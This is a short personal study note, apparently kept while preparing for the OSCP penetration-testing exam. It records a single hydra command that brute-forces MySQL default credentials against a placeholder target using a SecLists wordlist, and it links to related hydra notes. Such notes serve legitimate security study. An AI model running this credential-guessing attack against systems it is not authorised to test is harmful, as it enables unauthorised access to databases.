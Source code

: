 # brute force default credentials mysql
```bash
hydra $IP mysql -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -t 1
```

` zet/20221003150806/README.md `

# Related

- [20221014185851](/zet/20221014185851/README.md) kb file named kb/hacking/commands/hydra-default-credentials.md
- [20221009005402](/zet/20221009005402/README.md) preparing for the OSCP exam
- [20221003150807](/zet/20221003150807/README.md) brute force default credentials
- ~/kb/hacking/commands/hydra-default-credentials.md
- [20221003150744](/zet/20221003150744/README.md) hydra brute force
- [20221017182053](/zet/20221017182053/README.md) hydra

Tags:

    #command #hacking #hydra 
